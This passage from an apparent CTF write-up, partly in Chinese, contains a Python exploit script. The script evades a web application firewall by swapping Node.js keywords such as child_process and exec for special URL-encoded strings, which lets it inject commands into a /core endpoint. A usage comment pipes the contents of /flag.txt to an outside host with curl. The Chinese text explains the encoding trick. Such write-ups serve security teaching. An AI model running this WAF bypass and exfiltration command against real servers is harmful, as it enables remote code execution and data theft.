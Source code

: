 ```python
    # Bypass Waf 
    payload = payload.replace("global","%C5%A7%C5%AC%C5%AF%C5%A2%C5%A1%C5%AC")
    payload = payload.replace("process","%C5%B0%C5%B2%C5%AF%C5%A3%C5%A5%C5%B3%C5%B3")
    payload = payload.replace("mainModule","%C5%AD%C5%A1%C5%A9%C5%AE%C5%8D%C5%AF%C5%A4%C5%B5%C5%AC%C5%A5")
    payload = payload.replace("require","%C5%B2%C5%A5%C5%B1%C5%B5%C5%A9%C5%B2%C5%A5")
    payload = payload.replace("root","%C5%B2%C5%AF%C5%AF%C5%B4")
    payload = payload.replace("child_process","%C5%A3%C5%A8%C5%A9%C5%AC%C5%A4%C5%9F%C5%B0%C5%B2%C5%AF%C5%A3%C5%A5%C5%B3%C5%B3")
    payload = payload.replace("exec","%C5%A5%C5%B8%C5%A5%C5%A3")
    
    return payload

def run(url,cmd):
    payloadC =  payloadRaw.replace("evalcmd",cmd)
    urlC = url+"/core?q="+getParm(payloadC)
    requests.get(urlC)
    
    requests.get(url+"/?action=5am3_get_flag").text

if __name__ == '__main__':
    targetUrl = sys.argv[1]
    cmd = sys.argv[2]
    print run(targetUrl,cmd)

# python exp.py http://127.0.0.1:8081 "curl eval.com -X POST -d `cat /flag.txt`"
```

注意到为了让node.js不转义```\n\r```这种字符，我们将其替换为url编码后的特殊字符串，同理绕过waf也是一样的方式：

![iShot2022-03-20 16.33.18](./attachment/image-20220320161657253.png)
